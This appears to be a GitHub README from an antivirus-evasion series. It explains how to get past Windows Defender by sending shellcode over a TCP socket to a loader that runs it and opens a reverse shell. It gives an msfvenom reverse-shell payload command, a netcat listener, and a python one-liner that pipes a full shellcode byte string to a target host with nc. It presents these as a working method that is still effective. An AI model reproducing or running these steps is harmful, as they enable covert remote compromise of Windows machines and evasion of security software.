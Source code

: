 # Antivirus Evasion - Part 2

## Using Sockets to bypass Defender

We open a TCP socket port and send shellcode over that which is later executed to give reverse shell.

This works on latest defender as of Feb15 2021


### Steps 
- Prepare payload using msfvenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.1 LPORT=80 -b "\x00" -f csharp
```
- Once done compile the below code to generate exe which opens port 8080 on the ipv4 interface.
- Once done start reverse shell handler on kali
```
nc -nlvp 80
```
- Now send shellcode over the TCP socket which will be executed by executable.
```
python -c 'print "\xda\xc9\xbd\x4c\xee\xdc\x9e\xd9\x74\x24\xf4\x5e\x29\xc9\xb1\x52\x31\x6e\x17\x03\x6e\x17\x83\xa2\x12\x3e\x6b\xc6\x03\x3d\x94\x36\xd4\x22\x1c\xd3\xe5\x62\x7a\x90\x56\x53\x08\xf4\x5a\x18\x5c\xec\xe9\x6c\x49\x03\x59\xda\xaf\x2a\x5a\x77\x93\x2d\xd8\x8a\xc0\x8d\xe1\x44\x15\xcc\x26\xb8\xd4\x9c\xff\xb6\x4b\x30\x8b\x83\x57\xbb\xc7\x02\xd0\x58\x9f\x25\xf1\xcf\xab\x7f\xd1\xee\x78\xf4\x58\xe8\x9d\x31\x12\x83\x56\xcd\xa5\x45\xa7\x2e\x09\xa8\x07\xdd\x53\xed\xa0\x3e\x26\x07\xd3\xc3\x31\xdc\xa9\x1f\xb7\xc6\x0a\xeb\x6f\x22\xaa\x38\xe9\xa1\xa0\xf5\x7d\xed\xa4\x08\x51\x86\xd1\x81\x54\x48\x50\xd1\x72\x4c\x38\x81\x1b\xd5\xe4\x64\x23\x05\x47\xd8\x81\x4e\x6a\x0d\xb8\x0d\xe3\xe2\xf1\xad\xf3\x6c\x81\xde\xc1\x33\x39\x48\x6a\xbb\xe7\x8f\x8d\x96\x50\x1f\x70\x19\xa1\x36\xb7\x4d\xf1\x20\x1e\xee\x9a\xb0\x9f\x3b\x0c\xe0\x0f\x94\xed\x50\xf0\x44\x86\xba\xff\xbb\xb6\xc5\xd5\xd3\x5d\x3c\xbe\x1b\x09\x44\x3f\xf4\x48\xb8\x3f\x54\xc4\x5e\x55\x44\x80\xc9\xc2\xfd\x89\x81\x73\x01\x04\xec\xb4\x89\xab\x11\x7a\x7a\xc1\x01\xeb\x8a\x9c\x7b\xba\x95\x0a\x13\x20\x07\xd1\xe3\x2f\x34\x4e\xb4\x78\x8a\x87\x50\x95\xb5\x31\x46\x64\x23\x79\xc2\xb3\x90\x84\xcb\x36\xac\xa2\xdb\x8e\x2d\xef\x8f\x5e\x78\xb9\x79\x19\xd2\x0b\xd3\xf3\x89\xc5\xb3\x82\xe1\xd5\xc5\x8a\x2f\xa0\x29\x3a\x86\xf5\x56\xf3\x4e\xf2\x2f\xe9\xee\xfd\xfa\xa9\x1f\xb4\xa6\x98\xb7\x11\x33\x99\xd5\xa1\xee\xde\xe3\x21\x1a\x9f\x17\x39\x6f\x9a\x5c\xfd\x9c\xd6\xcd\x68\xa2\x45\xed\xb8"' | nc 192.168.122.189 8080
```

Code:
Full code can be found [here](../code/day2.cs)

## Pre-Requisite
- The structure of the VirtualAlloc,CreateThread and WaitForSingleObject has been explained on [day1](../days/day1.md)
- Reason for doing `shellcode.Length-1` is that upon sending the shellcode over nc there would be extra new linw which is not part of shellcode.
- I dont find need to consider cases where shellcode is greater than 1024 since that is very impractical for most of use cases.

## Reference
- The idea was taken from [Ired Teams](https://www.ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon#code). The techinique is still valid and works on all level of protection by defender.

